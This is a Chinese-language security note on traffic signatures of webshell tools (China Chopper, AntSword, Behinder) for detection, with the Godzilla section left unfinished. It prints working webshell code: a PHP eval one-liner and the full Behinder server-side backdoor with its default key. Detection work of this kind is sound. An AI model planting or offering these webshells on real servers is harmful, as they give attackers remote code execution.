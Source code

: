 ```yaml
---
title: "webshell流量特征" 
weight: 10
bookToc: true
---
```


## 背景

webshell是以`php`、`jsp`等形式存在的一种命令执行环境，是网页后门，通过其可获得网站服务器。

一般上传的webshell木马只保留了执行环境的入口，可实现的功能如文件管理、终端控制等依赖客户端管理工具如蚁剑等实现。

这里我们分析常见的4中webshell连接工具的流量特征，其中`菜刀`和`蚁剑`可以连接常见的一句话木马，**这里的`pass`参数为所谓的连接密码**，工作过程强依赖`pass`参数传参。
```php
<?php @eval($_POST['pass']); ?>
```

`冰蝎`和`哥斯拉`是基于流量加密实现的，**此时所谓的连接密码为对应加解密的密钥（或尤其派生）**，请求体中的所有流量都会被加密，服务器端侧需要上传对应生成的webshell以能够解密。

## 中国菜刀

1. UA头
```
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)
```

2. payload base64编码，且存在固定的开头
```
QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2
```
对应
```php
@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);
// 关闭错误显示、设置不限时运行、关闭魔术引号
```
![](/data/image/web//flow/image.png)

3. 请求存在 `z0/z1/...` 参数
![](/data/image/web//flow/image-1.png)

4. 响应使用 `->| xxxx |<-` 封装
![](/data/image/web//flow/image-2.png)

## 蚁剑

1. 参数名随机`d43729c7e26d7d`等

2. 存在 `@ini_set("display_errors","0");@set_time_limit(0);`

3. payload存在简单的混淆，执行的命令会被base64编码，且需要去除前2个字节，最终执行的命令是`$r = "{$p} {$c}";`类似`cmd.exe /c "xxx"`
![](/data/image/web//flow/image-3.png)
![](/data/image/web//flow/image-4.png)
![](/data/image/web//flow/image-5.png)

4. 因为执行命令时加了`echo xxx`的随机打印，所有返回会有对应随机的输出
![](/data/image/web//flow/image-6.png)

## 冰蝎

1. php服务器端webshell如下（位于安装目录的`server`目录下），解密密钥为`e45e329feb5d925b`，通过`md5("rebeyond")[0:16`]得到，其中`rebeyond`是冰蝎3.0的默认密码。无密钥无法从流量层面进行解密。
```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```
2. 连接成功后会默认显示`phpinfo`信息页面
![](/data/image/web//flow/image-7.png)

3. 如使用默认密钥，请求中会有固定的`3Mn1yNMtoZViV5wotQHPJtwwj`；响应中会有固定的`mAUYLzmqn5QPDkyI5lvSp0fjiBu1e7047Yj`。
![](/data/image/web//flow/image-8.png)

4. 人工解密参看如下：

请求：![](/data/image/web//flow/image-9.png)
响应：![](/data/image/web//flow/image-10.png)

## 哥斯拉

TODO